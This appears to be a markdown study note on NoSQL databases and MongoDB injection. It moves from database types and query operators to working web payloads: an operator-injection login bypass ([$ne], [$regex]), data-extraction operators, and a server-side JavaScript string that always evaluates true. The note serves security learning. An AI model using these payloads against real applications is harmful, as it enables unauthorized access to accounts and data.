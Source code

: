 ___
SQL but without tables. MongoDB is most popular. 
more common, with `MongoDB` now being the [5th most used](https://db-engines.com/en/ranking) database engine (as of November 2022).
The way `NoSQL` databases store data varies significantly across the different categories and implementations.

| Type                       | Description                                                                                                                                                        | Top 3 Engines (as of November 2022)                                                                                                                                                |
| -------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document-Oriented Database | Stores data in `documents` which contain pairs of `fields` and `values`. These documents are typically encoded in formats such as `JSON` or `XML`.                 | [MongoDB](https://www.mongodb.com/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Google Firebase - Cloud Firestore](https://firebase.google.com/products/firestore/)     |
| Key-Value Database         | A data structure that stores data in `key:value` pairs, also known as a `dictionary`.                                                                              | [Redis](https://redis.io/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/)                          |
| Wide-Column Store          | Used for storing enormous amounts of data in `tables`, `rows`, and `columns` like a relational database, but with the ability to handle more ambiguous data types. | [Apache Cassandra](https://cassandra.apache.org/_/index.html), [Apache HBase](https://hbase.apache.org/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/) |
| Graph Database             | Stores data in `nodes` and uses `edges` to define relationships.                                                                                                   | [Neo4j](https://neo4j.com/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/), [Virtuoso](https://virtuoso.openlinksw.com/)                                |

## MongoDB
___
MongoDB Usage cheatsheet: [https://www.mongodb.com/developer/products/mongodb/cheat-sheet/#connect-mongodb-shell](https://www.mongodb.com/developer/products/mongodb/cheat-sheet/#connect-mongodb-shell)

Mongo uses query operators to interact and compare fields. Here are some examples:
[query operators](https://www.mongodb.com/docs/manual/reference/operator/query/).

| Type       | Operator | Description                                                               | Example                                      |
| ---------- | -------- | ------------------------------------------------------------------------- | -------------------------------------------- |
| Comparison | `$eq`    | Matches values which are `equal to` a specified value                     | `type: {$eq: "Pink Lady"}`                   |
| Comparison | `$gt`    | Matches values which are `greater than` a specified value                 | `price: {$gt: 0.30}`                         |
| Comparison | `$gte`   | Matches values which are `greater than or equal to` a specified value     | `price: {$gte: 0.50}`                        |
| Comparison | `$in`    | Matches values which exist `in the specified array`                       | `type: {$in: ["Granny Smith", "Pink Lady"]}` |
| Comparison | `$lt`    | Matches values which are `less than` a specified value                    | `price: {$lt: 0.60}`                         |
| Logical    | `$not`   | Matches documents which `do not meet the conditions` of a specified query | `type: {$not: {$eq: "Granny Smith"}}`        |
| Evaluation | `$regex` | Matches values which `match a specified RegEx`                            | `type: {$regex: /^G.*/}`                     |

### Basic Injection Example
---
**Auth Bypass**
Normal data:
```
email=test@test.com&password=test
```
Becomes:
```
email[$ne]=test@test.com&password[$ne]=test
```
![](../../../../assets/Pasted%20image%2020250629152540.png)
This will evaluate to TRUE (unless the values actually exist) and bypass auth.
OR match anything and always eval to true:
```
email[$regex]=.*&password[$regex]=.*
```
**Data Extraction**
Ways can match ALL data from an injection point and return it:
- `name: {$ne: 'doesntExist'}`: Assuming `doesntExist` doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of `name` to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the [largest printable ASCII value](https://www.asciitable.com/), and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.

### Server-Side JavaScript Injection
---
Execute arbitrary JavaScript in the context of the database.
**Auth bypass**
![](../../../../assets/Pasted%20image%2020250629153121.png)
we could set `username` to `" || true || ""=="`, which should result in the query statement always returning `True`, regardless of what `this.username` and `this.password` are.
![](../../../../assets/Pasted%20image%2020250629153156.png)
